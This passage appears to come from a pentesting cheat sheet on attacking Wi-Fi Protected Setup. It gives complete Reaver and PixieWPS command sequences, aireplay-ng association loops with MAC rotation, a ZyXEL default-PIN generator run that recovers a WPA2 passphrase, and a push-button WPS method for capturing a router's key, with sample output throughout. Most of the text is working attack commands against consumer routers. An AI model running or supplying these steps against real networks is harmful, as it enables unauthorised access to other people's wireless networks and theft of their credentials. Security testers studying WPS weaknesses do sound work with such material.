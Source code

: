 #### 4.1. Reaver repos
```
github.com/t6x/reaver-wps-fork-t6x (reaver with wash and default pin generators / PixieWPS)
github.com/gabrielrcouto/reaver-wps (reaver with mac changer)
github.com/wiire-a/pixiewps (offline PixieWPS cracking tool)
```


#### 4.2. Basic usage
```
# iface='wlan0' # monitor mode
# bssid='DE:AD:BE:EF:00:01'
# ch=11
# reaver -i $iface -b $bssid -c $ch -p 12345670
# reaver -i $iface -b $bssid -c $ch -r 1:330 --lock-delay=300 -vvv
```
Notes:
- attempt 1 PIN at 300s with lock delay of another 300s
- remember to add more seconds on a case to case basis
- constraints: `[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking`


#### 4.3. Scanning
```
# mkdir /etc/reaver # fix wash error
# bash wpsscan.sh wlan0
Running 'wash' in background for 120 seconds ...
DE:AD:BE:EF:00:01   11  -44  2.0  No   Broadcom  DeadBeef_1
DE:AD:BE:EF:00:02    1  -48  2.0  No   Broadcom  DeadBeef_2
DE:AD:BE:EF:00:03    1  -62  2.0  No   Broadcom  DeadBeef_3
```


#### 4.4. PixieWPS attack
```
# reaver -i wlan0 -b <BSSID> -c 5 --pixie-dust  -vv
Reaver v1.6.4-git-21-g9bae55b WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>
...
[+] Received M1 message
[+] Sending M2 message
executing pixiewps -e [CUT] -s [CUT] -z [CUT] -a [CUT] -n [CUT] -r [CUT]
Pixiewps 1.2
...
```


#### 4.5. Reaver attack with MAC address changer

1) Configure tool
```
# git clone https://github.com/gabrielrcouto/reaver-wps && cd reaver-wps/src && ./configure && make
```

2) Associate
```
# killall aireplay-ng
# bssid='AA:BB:CC:DD:EE:FF'   # target BSSID
# station='ZZ:ZZ:ZZ:ZZ:ZZ:Z'  # your WLAN MAC w/o the last character
# for i in {0..9}; do aireplay-ng wlan0 -1 120 -a $bssid --ignore-negative-one -h $station$i & done
# for i in {A..F}; do aireplay-ng wlan0 -1 120 -a $bssid --ignore-negative-one -h $station$i & done
```

3) Run attack
```
# bssid='AA:BB:CC:DD:EE:FF'   # target BSSID
# ./reaver -i wlan0 -c 5 -b $bssid --mac-changer --no-nacks --win7 --no-associate -vv
```



#### 4.6. Reaver with ZyXEL default PIN generator

Info: `http://www.zyxel.com/support/announcement_wps_brute_force_attack.shtml`
Prerequisites: 
```
# git clone https://github.com/t6x/reaver-wps-fork-t6x && cd reaver-wps-fork-t6x
# git checkout master-old && cd src && ./configure && make
```

1) WPS PIN generator for ZyXEL
```
# bash wpsscan.sh | grep -i zyxel
DE:AD:BE:EF:99:99     2       -62   1.0          No          ZyXEL_9999
# reaver 2>&1 | grep -i zyxel
	-W, --generate-pin              Default Pin Generator [1] Belkin [2] D-Link [3] Zyxel
```

2) Generate PIN
```
# reaver -i wlan0 -b DE:AD:BE:EF:99:99 -c 2 --generate-pin 3 --dh-small --lock-delay=300
[--- SNIP ---]
[+] Waiting for beacon from DE:AD:BE:EF:99:99
[+] Associated with DE:AD:BE:EF:99:99 (ESSID: ZyXEL_9999)
...
[P] WPS Model Number: RT2860
[P] Access Point Serial Number: 12345678
...
[Pin Gen] Pin Generated : 30876927
[Pin Gen] Pin Generated (+1): 30876934
[Pin Gen] Pin Generated (-1): 30876910
```

3) Use default PIN to get WPA2 password
```
# reaver 2>&1 | grep -i 'use .* pin'
	-p, --pin=<wps pin>             Use the specified 4 or 8 digit WPS pin 
# reaver -i wlan0 -b DE:AD:BE:EF:99:99 -c 2 --pin 30876927
...
[+] Waiting for beacon from DE:AD:BE:EF:99:99
[+] Associated with DE:AD:BE:EF:99:99 (ESSID: ZyXEL_9999)
...
[+] WPS PIN: '30876927'
[+] WPA PSK: '4AYYM4XXXXXXX'
[+] AP SSID: 'ZyXEL_9999'
```


#### 4.7. WPS push button method (social)

Prerequisites:
- access to the administrative web interface (*WPS Add Client*)
- physical access to the router to push the WPS button (no WPA2 credentials on the label)

1) WPA supplicant config
```
cat << EOF > /tmp/PBC.conf
ctrl_interface=/var/run/wpa_supplicant
ctrl_interface_group=root
update_config=1
EOF
```

2) Run `wpa_supplicant`
```
# killall wpa_supplicant 2>/dev/null && killall dhclient 2>/dev/null
# wpa_supplicant -c /tmp/PBC.conf -i wlan0
...
wlan0: WPA: Key negotiation completed with 40:65:a3:eb:50:76 [PTK=CCMP GTK=CCMP]
wlan0: CTRL-EVENT-CONNECTED - Connection to 40:65:a3:eb:50:76 completed [id=0 id_str=]
```

3) Initiate WPS-PBC connection
```
# wpa_cli -i wlan0 wps_pbc any
OK
```

4) Grab the WPA2 key
```
# cat /tmp/PBC.conf
ctrl_interface=/var/run/wpa_supplicant
ctrl_interface_group=root
update_config=1

network={
    ssid="DeadBeef"
    psk="DeadBeefPSK-LOL#1#"
    proto=RSN
    key_mgmt=WPA-PSK
    pairwise=CCMP
    auth_alg=OPEN
}
```
